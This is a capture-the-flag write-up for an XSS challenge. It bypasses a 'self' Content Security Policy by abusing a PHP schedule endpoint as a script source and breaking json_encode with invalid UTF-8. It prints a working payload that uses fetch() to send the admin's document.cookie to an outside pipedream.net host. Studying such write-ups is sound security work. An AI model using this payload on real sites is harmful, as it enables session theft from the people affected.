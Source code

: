 This is a XSS challenge with a CSP policy of self. 
The way to bypass the CSP is to use the get_schedule.php endpoint as a script source, and then we will be able to use that endpoint as sort of a javascript file. 

The errormessage we give it is displayed when awakeHours is less than 0. The problem is that the data is being displayed right before we are able to inject our payload. 
```php
onSuccess($data);

if ($data["awakeHours"] <= 0 && sizeof($data['rows'])>0) {
    echo $messageOnError;
}
```

As such, we need to somehow either make the json data be interpreted as javascript, or remove it entirely. The onSuccess function uses the json_encode function to encode the data. The json_encode will return null when it fails to encode the data. We can make it fail by giving it a non valid utf-8 payload for the rows.

```
scheduleID=6&startTime=2024-11-16T08:45:07.340Z&endTime=2024-11-10T08:45:07.340Z&desc=%fc%a1%a1%a1%a1%a1
```

Then, we can inject our payload in the desc field of the first item
```html
</textarea><iframe src = "backend/get_schedule.php?errorMessage=<script src='?errorMessage=fetch(`https://eo2jsc6xk7y9tec.m.pipedream.net?${document.cookie}`)'></script>"></iframe>a
```

Since the data is limited to just the first 5 on the admin's side, we can insert our invalid data on the 6th item such that our rows will still render on the admin's side to invoke the XSS.


